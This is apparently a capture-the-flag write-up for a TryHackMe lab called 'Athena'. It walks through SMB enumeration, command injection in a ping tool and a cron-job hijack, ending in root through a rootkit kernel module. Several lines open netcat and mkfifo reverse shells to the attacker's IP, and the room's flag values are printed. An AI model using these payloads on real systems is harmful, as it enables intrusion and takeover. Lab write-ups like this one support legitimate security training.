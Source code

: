 # Athena :
```sh
export IP=room-ip
```
# Information Gathering: 

nmap -sV -sC -A  $IP
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 00:25 CEST
Nmap scan report for 10.10.155.144
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T22:25:31
|_  start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```
Now, we have some services that are running in the machine.
# Enumerating this services: 

![Screenshot_22](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/7c256c8a-fad5-4434-867a-f278095acd9d)

Nothing in Here.

I used a tool called enum4linux for the smb  
```sh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\athena (Local User)

Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
 
 [+] Attempting to map shares on 10.10.155.144

//10.10.155.144/public	Mapping: OK Listing: OK Writing: N/A
```

By this information i was able to use smbclient to enter the Public share

```sh
smbclient  //10.10.155.144/public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023
```
So we found text file from the administrator exposing the  dir /myrouterpanel 

```sh
cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
Let’s visit the directory /myrouterpanel.

![Screenshot_23](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/d010c5af-2dfc-48f3-979d-a6788daab527)

by seeing this ping tool it obvious that we have a command injection vuln
$(ls) !ls ;ls .....
I managed to get this injection to get me a reverse shell 

```sh
127.0.0.1 -c `nc 10.8.46.178 9001 -e /bin/sh`
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 51460
ls
index.html
ping.php
style.css
under-construction.html

```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
Here I used linpeas.sh to enumerate the machine.
```sh
my machine : python3 -m http.server 8000
reverse shell : wget http://vpnIP/linpeas.sh -O linpeas.sh
```
I found this file /usr/share/backup/backup.sh with athena as the owner, so i add revshell to the file bc it has crontab running the sh file.

```sh

-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh

www-data@routerpanel:/usr/share/backup$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f'  >> backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh 
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f
-----------------------------------------------------------------------------------------------------------------------------------------------------
in my machine
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 60748
/bin/sh: 0: can't access tty; job control turned off
$ id     
uid=1001(athena) gid=1001(athena) groups=1001(athena)
$ cat user.txt
857c4a4fbac638afb6c7ee45eb3e1a28

```
 What we can run as sudo.
```sh
athena@routerpanel:~/notes$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
# Privilege escalation:

 I decompile the file venom.ko , and  i used chatgpt to understand it so i found that 
```sh
 The code you've provided isn't inherently vulnerable by itself; rather, it's designed to exploit vulnerabilities or weaknesses in the Linux kernel. Let's break down potential vulnerabilities or risks associated with this code:

Kernel Code Modification: The code modifies the behavior of certain system calls by hooking into them. This kind of modification introduces a risk of instability or unintended behavior in the kernel. If the modification is not implemented correctly or conflicts with other parts of the kernel, it could lead to system crashes or security vulnerabilities.

Privilege Escalation: By intercepting the kill system call, the code grants root privileges (give_root) based on specific conditions. If an attacker can trigger these conditions, they may be able to escalate their privileges to root, gaining complete control over the system.
Process Hiding: The code includes functionality (is_invisible) to hide certain processes from being listed by system calls like getdents and getdents64. While this may be used for legitimate purposes, such as hiding sensitive processes, it can also be abused by malware to conceal its presence on the system, making it harder for security tools and administrators to detect.

Kernel Module Loading: The code is implemented as a kernel module (diamorphine_init), which means it can be loaded into the kernel dynamically. Kernel modules have elevated privileges and can interact directly with kernel internals, making them powerful tools for both legitimate and malicious purposes. However, loading unauthorized or malicious kernel modules introduces significant security risks, as they can bypass standard security mechanisms and directly manipulate the kernel.

Lack of Input Validation: The code does not appear to perform extensive input validation, particularly in functions like hacked_getdents and hacked_getdents64, where directory entries are filtered based on specific criteria. Without proper input validation, there's a risk of buffer overflows, out-of-bounds accesses, and other vulnerabilities that could be exploited by attackers to compromise the system.

```
```
# exploited
athena@routerpanel:/mnt/.../secret$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/mnt/.../secret$ kill -57 0
athena@routerpanel:/mnt/.../secret$ whoami
root
athena@routerpanel:/mnt/.../secret$ cd /root/
athena@routerpanel:/root$ ls
fsociety00.dat  root.txt
athena@routerpanel:/root$ cat root.txt 
aecd4a3497cd2ec4bc71a2315030bd48
```
